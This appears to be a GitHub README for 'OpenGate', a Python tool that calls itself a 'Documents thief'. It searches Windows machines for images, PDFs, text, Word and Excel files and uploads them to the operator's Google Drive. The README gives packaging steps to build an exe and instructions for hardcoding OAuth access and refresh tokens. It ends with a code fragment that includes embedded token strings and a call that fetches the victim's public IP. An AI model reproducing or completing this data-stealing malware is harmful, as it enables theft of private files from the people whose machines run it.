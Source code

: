 # OpenGate
OpenGate "Documents thief" searching for images , pdf .text file , word  and Excel ,  extension and send to Google Drive
* for windows operating system compile to exe 
* user can use pyinstaller or py2exe 'for py2exe uset setup.py file
* have to anable api 'OAuth 2.0 Playground'
* 
### how to enable OAuth 2.0 Playground
* the idea of use oauth 2.0 playground is the file  will be large  file so can not send it by email so-
- the best options to use auth 2.0 playground google api 'Googel Drive' so can create file on the google drive 
- and store it in google drive 

 * [Google Ads API Auth Series - Web Flow with the OAuth Playground](https://www.youtube.com/watch?v=KFICa7Ngzng)
 * [Using OAuth 2.0 to Access Google APIs](https://developers.google.com/identity/protocols/oauth2)
 * gentrate the access Token copy and past it 
 ```python
 Token    = ""#add the access Token hare
 ```
 ### handel with ipa Token Expire 
with use access Token will get expire after 1 hour , the OpenGate will requsts new access Token Automaticly if the access Token expire fot that have to hared code client_id , client_sctrite , refrech Token ,
 
```python 
client_id     = ''#add the client_id  hare
client_secret = ''#add the client_secret hare
refresh_token = ''#add the refresh_token  hare
```
### Eplan
```python

#!/usr/bin/env python3

import os
import shutil
import base64
import json
import requests
import socket
import urllib.request

Token         = "ya29.a0ARrdaM9XO9KvfMzshrDlxJTO6HMCyy5EIaMNduS2gnPamRk1KgoTAj-KSE1zJ_bW3s0xbbK7vjoWYMy5ZRWbtfZbLF0flz4uX58GXqkbNFC3iBXeJ3meGIoILJwuA2dH-7s7yCpnTuBuBYsZOGbpt0J6USo"# add the Token hare
client_id     = '407408718192.apps.googleusercontent.com'#add the client_id  hare
client_secret = ''#add the client_secret hare
refresh_token = '//04_5VB6CflruWCgYIARAAGAQSNwF-L9IrkPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr00jwjjwjjwjjwjjj' # add refreh Token hare
try:
    public_ip  = urllib.request.urlopen('http://api.ipify.org').read().decode('utf8')
```
